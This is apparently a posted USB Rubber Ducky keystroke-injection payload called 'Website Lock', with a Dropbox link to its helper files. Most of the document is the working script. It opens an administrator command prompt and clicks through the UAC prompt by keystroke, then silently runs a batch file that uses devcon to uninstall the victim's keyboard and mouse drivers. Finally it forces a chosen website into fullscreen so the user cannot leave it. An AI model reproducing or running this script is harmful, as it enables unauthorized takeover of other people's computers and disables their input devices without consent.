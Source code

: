 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
	REM Title: Website Lock
	REM Author: Audiack
	REM Target Ducky Encoder: 2.6.2
	REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
	REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
	REM Info:
	REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
	REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
	REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
	REM     Make sure the files are in the root of a drive called DUCKY.
	REM     Twin duck works well with this. It is what I used when I was testing it. 
	REM File Descriptions:
	REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
	REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
	REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
	REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
	
	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11